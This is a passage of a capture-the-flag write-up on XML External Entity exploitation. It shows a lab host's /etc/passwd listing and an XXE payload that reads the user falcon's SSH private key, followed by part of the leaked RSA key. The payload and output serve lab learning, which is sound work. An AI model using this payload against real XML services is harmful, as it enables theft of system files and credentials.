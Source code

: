 ```bash
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:MailingList 
Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:GnatsBug-ReportingSystem 
(admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd 
NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd 
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash 


```
## Answer the questions below

30.Try the payload mentioned in description on the website.
>>No answer needed

----

# Task 16 [Severity 4] XML External Entity - Exploiting
----

>>Now let us see some payloads in action. The payload that I'll be using is the one we saw in the previous task.

1) Let's see how the website would look if we'll try to use the payload for displaying the name.

>>On the left side, we can see the burp request that was sent with the URL encoded payload and on the right side we can see that the payload was able to successfully display name falcon feast

2) Now let's try to read the /etc/passwd

```bash
# Displaying my name using xml
<?xml version='1.0'?>
<String>Prathap</String>        

# Getting the id_rsa key of falcon using this payload
<?xml version='1.0'?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:/home/falcon/.ssh/id_rsa">]>
<root>&read;</root>

-----BEGIN RSA PRIVATE KEY----- 
MIIEogIBAAKCAQEA7bq7Uj0ZQzFiWzKc81OibYfCGhA24RYmcterVvRvdxw0IVSClZ9oM4LiwzqRIEbed7/
hAA0wu6Tlyy+oLHZn2i3pLur07pxb0bfYkr7r5DaKpRPB 
2Echy67MiXAQu/xgHd1e7tST18B+Ubnwo4YZNxQa+vhHRx4G5NLRL8sT+Vj9atKNMfJmbzClgOKpTNgBaAkzY5ueWww9g0CkCldOBCM38nkEwLJAzCKtaHSreXFNN2hQ 
IGfizQYRDWH1EyDbaPmvZmy0lEELfMR18wjYF1VBTAl8PNCcqVVDaKaIrbnshQpO 
HoqIKrf3wLn4rnU9873C3JKzX1aDP6q+P+9BlwIDAQABAoIBABnNP5GAciJ51KwD 
RUeflyx+JJIBmoM5jTi/sagBZauu0vWfH4EvyPZ2SThZPfEb3/9tQvVneReUoSA5 
```